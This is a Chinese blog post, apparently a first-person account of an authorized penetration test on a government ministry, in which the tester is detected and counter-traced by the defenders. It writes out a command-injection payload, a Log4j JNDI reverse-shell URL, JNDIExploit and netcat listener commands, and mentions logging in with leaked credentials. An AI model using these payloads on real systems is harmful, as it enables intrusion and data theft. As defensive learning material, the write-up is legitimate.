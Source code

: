 ```yaml
---
title: 记一次对某部委的渗透测试
published: 2025-01-05
description: '关于免杀与权限维持的思路'
image: 'https://tse3-mm.cn.bing.net/th/id/OIP-C.W-oppI6wXTHjwzyCanibogHaEj?w=315&h=194&c=7&r=0&o=5&dpr=1.3&pid=1.7'
tags: [实战,渗透,web]
category: '网络安全'
draft: false 
lang: ''
---
```


这周接到上面的通知去给某政府单位进行资产梳理和渗透测试，这个单位的安服非常有实力，曾经成功抵御了某带编号的境外apt组织的攻击并给出溯源报告。一开始领导让我去搞这个项目的时候我是很抵触的，毕竟aptxx都打不穿的单位你让我去是不是有点太幽默。转念一想，有机会见识一下顶尖蓝队和企业安全策略也没啥不好的。我就不信邪了看看这怎么个事——当然最后结果也是不出所料的被反清得裤衩都不剩了。以下是整个测试过程的一些印象比较深刻的片段。本文发布已经过目标单位的授权，涉及到的信息图片等均厚码处理，文章内容仅供技术交流使用

![](记一次对某部委的渗透测试/image-20250125234924093.png)

1.前期按部就班做了一些针对性的资产梳理和收集工作，备案反查，子域，ip网段资产，js采集。很快就在某子域下发现一个?str=传参的命令执行漏洞，用最简单的${IFS}就可以绕过过滤执行命令，并且有回显。这个蜜罐还是很明显的，首先洞太突兀了，一级子域下边留这么一个脑残的命令执行到现在还不修我是不信的。第二个，这个str参数在这里没有任何意义，正常用户点击这个web地址的时候用不到，他也实现不了任何业务功能。最后f12看一下页面加载了很多第三方js文件，这也是罐子的一大特征，遂马上跑路，没有中招 

2.利用酷酷习题大法，在tg泄露的几百万行日志.txt中找到了此部委某处资产的账号密码，成功登录

![](记一次对某部委的渗透测试/image-20250125234943243.png)

看起来系统似乎还是挺老的，没有waf，先尝试寻找sql注入，挨个点击可能和数据库交互的页面功能区域，把burp里请求流量全部保存联动sqlmap -r risk=5 level=3开跑，无果，尝试手注依然无果。想要进行后台文件上传，然后发现根本就没有上传点，屋檐了  
继续测试，找到鉴权的api接口，在/api/v2/auth/checkUser/usrid.php 这里，如图，想要垂直越权一下获取管理员权限

![](记一次对某部委的渗透测试/image-20250125235002962.png)

猜测管理员用户名就是admin，passwordComplex参数只要输对了验证码就是0，不用管。temp和最重要的加密的那个_Monster到底是啥玩意，(我真没见过谁家鉴权参数叫这个名字的)，怎么生成的，实在想不明白。想翻阅js看看在前端有无相关的参数的接口，加密了，本人js逆向就是一坨，就在想放弃找越权的时候网站出现了卡顿，这个代码也挺神经的，如果src获取图床url的时候没有成功，会在返回里显示“出现xxx故障错误代码xxx请联系xxxx(软件开发商联系方式)”，6。然后交给社工哥顺利的找到了此套软件的源码

![](596bbbfb3bdb33fca0ceb2a1ff2f7e00.png)

审计鉴权代码发现其实是用一个默认密钥+时间戳+用户名的方式生成了那个_Monster参数，temp参数和越权没关系，系统管理员和普通用户都是一样的，成功通过接口修改_Monster和id的值以admin身份登录入系统

![](记一次对某部委的渗透测试/image-20250125235050598.png)

管理员后台的功能就比较多了，有上传点，而且谢天谢地没有任何对文件后缀的检验，就是上传过后不会回显路径。这个问题不大因为源码都搞到手了，看源码$uploadPath就行。然后就是XG拟态生成器生成免杀webshell上传连接后接管服务器，哥斯拉插件绕过disable_fouction丝滑小连招

![](记一次对某部委的渗透测试/image-20250125235058874.png)

后续通过shell上线c2的时候渗透内网的内容因保密需要无法透露。这个资产打到的只是该部委的一处边缘网段，内网机器虽然挺多但是并非核心生产环境，也没有敏感资料。然而这基本上就是我的全部成绩了，后续就是蓝队高手四擒年某的故事  
  
3.扫到主域名下某路径back.zip内容，一打开看居然是网站源码，各个路径都能对上。审计源码内容，这个info.php的漏洞点代码如下

![](记一次对某部委的渗透测试/image-20250125235109497.png)

有个filter_var()的函数进行过滤，白名单预定义了用户操作，FILTER_SANITIZE_STRING是 PHP 中的一个过滤器，清洗用户字符串输入的 HTML 标签和特殊字符来防止xss，但是这俩过滤都是平时ctf里绕过烂了的东西，/info.php?action=list;whoami 直接命令执行。当时我愣了一下，这个据说抵御过aptxx组织攻击的单位这么简单就搞到主站rce了？转念一想也不是不可能，apt组织写各种免杀和加载器厉害，打突破都是靠钓鱼，我字典好正好扫到.zip直接白盒秒了，遂传参狠狠的写入shell，疑似有宝塔文件锁一类的东西文件无法落地，就执行命令nc反弹了一下到我vps上  

后来我才知道这堆byd安服大玉想象力之丰富，那个back.zip就是他们故意放到服务器上的，压缩包里info.php的内容也是故意这么写的，实际上真正的info.php根本不长这样，传参管道符或者分号的时候后端跟进的代码不是shell_exec()，而是一个他们自研的蜜罐接口，就看哪个冤种发送action=list;，直接标红ip然后态感设备一顿响，我后续执行的所有操作几个值班的蓝队哥看得一清二楚。nc反弹的时候vps地址也漏了。溯到ip一波反清各类c2框架的端口，cs的50050和viper的60000。正好我是超级懒人，接收反弹shell，漏扫，cs和viper和daybreak和灯塔都部署在这台机器上面，而且全都是弱口令，蓝队哥用day或者爆破，拿到了我viper的账号密码，并且不知道通过什么手段经过viper的后台直接拿到了我服务器的ssh账号密码？我ssh连服务器的时候没挂代理，人家在服务器上翻一下登录日志，酒店公网ip遂暴露 

4.具体过程无法透露，通过某设备0day拿到生产环境数据库账号密码，刚刚连上就触发了数据库日志审计秒掐端口禁止外连，最后的危害就是截了张图大概知道了他有哪几个表，数据一点都没能泄露，没脾气。只能安慰自己拔线拔得这么快起码证明没踩到罐子

![](记一次对某部委的渗透测试/image-20250125235140892.png)

 5.整理资产看到某公网oa系统，正好前段时间审了这个oa的sql注入0day，发送poc

![](记一次对某部委的渗透测试/image-20250125235148977.png)

![](记一次对某部委的渗透测试/image-20250125235152348.png)

6.扫到了公网上部署的nacos系统，并且工具检测出来有Hessian反序列化，拿🦶想都知道这种单位不可能傻到公网上放nacos还留着nday不修，一眼罐子，于是没有深入
测试结束过后问了一句，然后人家说这个还真特么不是罐子，只是资产归属不属于他们单位负责，气死我了

7.接下来连续的几天都一点成果没有，对着搜集到的一堆资产扫描器猛扫，连个debug的信息泄露都扫不到。挂burp手动测试功能点，测了半天也没有，源码泄露也找不到，那些个cms也都是自研的或者闭源的，手上无day可打，黑盒真的太难了。转变思路重新收集了一下资产信息拓展攻击面。终于找到了某系统存在Log4j漏洞
使用工具JNDI-Injection-Exploit，直接
`java -jar JNDIExploit.jar -l 8888 -p 6666 -i 本机ip` 

然后`nc -lvvp 10001`开启监听  浏览器打开url访问
http://xxxx.xxxx/solr/admin/cores?action=${jndi:ldap://xxxxx:8888/Basic/ReverseShell/xxxxxx/10001
但是vps上一直收不到shell，有补丁吗？查了一下官方commit里对于Log4j漏洞的修改意见，一个是限制LDAP和RMI的访问类，还有就是
https://github.com/apache/logging-log4j2/commit/d82b47c6fae9c15fcb183170394d5f1a01ac02d3
里边，对于lookup方法的修改，你想要new URI(name)处报错但是name又得被jndi正常识别，这里就只能用marshalsec方法反弹shell了，因为marshalsec构造LADP服务的时候不走那个handle URL的语句块，不会导致解析错误。

不过这种方法复现的话挺麻烦的，要自己写一个Exploit.class放到web服务上，具体步骤看
https://mp.weixin.qq.com/s/4cvooT4tfQhjL7t4GFzYFQ
，这里因为篇幅原因就不多说
![](6c1a39f7eb57d8b958241f3f7bbbdb70.png)

拿到shell，机器出网能直接wget下东西，无敌免杀bypass杀软顺利上线cs。这个内网比上文提到的那个重要多了，此时感觉自己非常的黑客，开始幻想自己单兵apt打穿某某部委，开心得不行

![](记一次对某部委的渗透测试/image-20250125235308704.png)

内网部分还是因为保密原因不能提，横向过程中阻力挺大，捣鼓半天一台新的机器都没横向成功。好不容易跌跌撞撞拿到了一台windows的票据，cs上线文件管理看看desktop是咋回事

![](记一次对某部委的渗透测试/image-20250125235317652.png)

在桌面文件夹发现了惊人的Powervpn.exe以及使用手册.pdf，笑嘻了。由于是exe，下载下来先看df报不报毒，df和卡巴都不报毒，丢沙箱看一下，有异常行为，但多半是误报(云沙箱经常犯病) ，感觉文件安全没问题，遂大胆运行  
后来知道这堆蓝队哥居然在内网每台办公机器的桌面都放了钓鱼vpn.exe，无敌了，他也不怕自家员工给他一顿点。并且免杀df火绒360晶核卡巴，甚至反虚拟机，vm运行弹窗提示必须物理机运行(我这种莽夫直接本机右键了，人家白多花了这么个心思)。你自己边界突破进去横向拿到的权限，在这台机器上下的文件，杀软也不报毒，这谁特么能想到是个马子。于是我那台破笔记本也被蓝队控制，然后电脑桌面文件夹里就有简历.doc

总结：花了差不多十天的渗透时间，就只拿下该部委webshell两个，其中一个为gov域名；边缘办公系统内网机器xx台，数据库半个(连上没三分钟就应急了，一条数据没看到，所以算半个)。然后被溯源到攻击服务器一台，通过反制手段拿到部署在上面的viper和cs的账号密码，以及服务器ssh账号密码。被钓鱼导致用于攻击的笔记本被蓝队上线。暴露了酒店公网ip地址，人家只是尊重我的隐私没用蓝队神秘小工具翻我设备而已，不然消费记录结合公网ip地理位置画像一下就知道我酒店门牌号是哪个了。通过笔记本桌面文件里的简历.doc获得了我的姓名手机号qq号和大头照，使用纸飞机酷酷bot轻松反查到身份证号。最后捕获到没利用成功的某oa前台sql注入一个。一句话概括，东西没打到几个底裤漏完，算了一下rating估计在0.4到0.5之间，大败而归

最后交流的时候和人家聊了一下才知道这几个蓝队哥里边有之前大厂实验室的渗透岗，意料之中，只有做过攻击队的老油条才能想出往back.zip里边塞假源码骗人进罐子这样的狠活。一方面人家太懂红队的心理了，完美预判了常见渗透流程中的每一件事情，非常合理且巧妙的在这些过程中给你挖坑。另一方面硬实力也没得说，那个监控特定参数并且能够高交互回显的蜜罐接口是人家自研的产品，自己手搓代码写出来的；绕过各路杀软的钓鱼exe也是人家自己做的免杀(今六月份的做的到现在依然能够bypass各大杀软)，以及通过viper后台拿到服务器ssh权限，这个我至今不知道他们是咋做到的。国护的时候我也拆过那些四蹲五蹲的黑店靶标，都是还没毕业的大学生，技能也只有很被动的封c段加拔线，被打穿了就在裁判那里嘴遁机关枪死不承认。但是这次某部委原厂的安全团队真是打得我没脾气，人家确实是把蓝队和企业安全这块玩明白了。现在网安方面很多文章以及研究都把重点放在了攻击的各种姿势上，往往忽略了防御其实也是一门艺术，能整出很多花样的，不仅仅只有刻板印象里龟缩起来的各种封。这次演练完了也是老老实实认识到了和行业内顶尖高手的差距，之前娱乐圈炸鱼那是心高气傲，现在发现到了高手过招的这个层次自己被别人当鱼炸了，还是得继续多看文章多学习
